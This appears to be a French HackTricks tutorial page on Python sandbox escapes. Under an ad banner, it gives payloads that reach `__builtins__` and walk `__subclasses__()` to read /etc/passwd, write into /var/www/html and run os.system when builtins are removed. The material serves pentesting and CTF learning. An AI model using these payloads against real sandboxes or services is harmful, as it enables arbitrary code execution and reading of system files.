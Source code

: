Utilisez [**Trickest**](https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks) pour construire et automatiser facilement des flux de travail alimentés par les outils communautaires les plus avancés au monde.\
Obtenez l'accès aujourd'hui :

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Builtins

* [**Fonctions intégrées de python2**](https://docs.python.org/2/library/functions.html)
* [**Fonctions intégrées de python3**](https://docs.python.org/3/library/functions.html)

Si vous pouvez accéder à l'objet **`__builtins__`**, vous pouvez importer des bibliothèques (remarquez que vous pourriez également utiliser ici une autre représentation de chaîne montrée dans la dernière section) :
```python
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
```
### Pas de Builtins

Lorsque vous n'avez pas `__builtins__`, vous ne pourrez pas importer quoi que ce soit ni même lire ou écrire des fichiers car **toutes les fonctions globales** (comme `open`, `import`, `print`...) **ne sont pas chargées**.\
Cependant, **par défaut, Python importe beaucoup de modules en mémoire**. Ces modules peuvent sembler bénins, mais certains d'entre eux **importent également des fonctionnalités dangereuses** à l'intérieur d'eux qui peuvent être accessibles pour obtenir même une **exécution de code arbitraire**.

Dans les exemples suivants, vous pouvez observer comment **abuser** de certains de ces modules "**bénins**" chargés pour **accéder** à des **fonctionnalités dangereuses** à l'intérieur d'eux.

**Python2**
```python
#Try to reload __builtins__
reload(__builtins__)
import __builtin__

# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

# Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
# Execute (another method)
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
# Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('ls')")

# Or you could obtain the builtins from a defined function
get_flag.__globals__['__builtins__']['__import__']("os").system("ls")
```
#### Python3
